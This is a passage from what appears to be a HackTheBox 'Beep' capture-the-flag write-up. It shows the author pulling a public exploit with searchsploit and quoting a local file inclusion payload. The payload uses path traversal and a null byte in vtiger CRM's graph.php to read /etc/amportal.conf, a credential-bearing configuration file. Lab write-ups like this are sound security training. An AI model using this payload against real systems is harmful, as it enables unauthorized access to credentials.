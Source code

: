 ## Alternative Exploit - LFI

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# searchsploit -m 37637

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Beep]
└─# cat 37637.pl
...
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
...
```

Lets apply the exploit string on the website!

![website_lfi](https://github.com/blankshiro/blankshiro.github.io/blob/main/assets/img/HackTheBox/Beep/website_lfi.png?raw=true)
